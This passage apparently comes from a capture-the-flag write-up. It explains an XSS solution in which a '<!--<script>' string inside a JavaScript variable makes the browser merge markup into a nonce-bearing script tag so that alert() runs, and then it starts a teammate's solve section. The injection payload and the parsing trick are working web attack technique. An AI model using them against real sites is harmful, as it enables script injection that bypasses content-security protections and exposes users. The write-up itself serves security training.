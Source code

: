 ```html
      document.addEventListener( 'DOMContentLoaded', function () {
        document.getElementById( 'viewButton' ).addEventListener(
          'click',
          function () {
            document.getElementById( 'viewSnippet' ).innerHTML = snippet;
            document.getElementById( 'viewSnippet' ).id = 'snippetDisplay';
          }
        );
      } );
      var snippet = "<p id=\"<!--<script>\">";
      // @license http://unlicense.org/UNLICENSE Unlicense
    </script>
  </head>
  <body>
    <main>
      <h1>
        alert()//</script></h1>
      ...
    </main>
  </body>
</html>
```
After the magic "merge" by the browser, the final script tag will look like this:
```html
<script nonce="${nonce}">
  document.addEventListener( 'DOMContentLoaded', function () {
    document.getElementById( 'viewButton' ).addEventListener(
      'click',
      function () {
        document.getElementById( 'viewSnippet' ).innerHTML = snippet;
        document.getElementById( 'viewSnippet' ).id = 'snippetDisplay';
      }
    );
  } );
  var snippet = "<p id=\"<!--<script>\">";
  // @license http://unlicense.org/UNLICENSE Unlicense</script></head><body><main><h1>
  alert()//</script>
```
Then pop goes the alert.

## Teammate's solves

### Quiz
**Solvers:** 9 <br>
**Author:** GabeG888

This challenge was solved by [Masamune](https://discord.com/users/538608747153588224){:target="_blank"} after one of our teammmates gave an idea

![quiz-idea](quiz-idea.png)
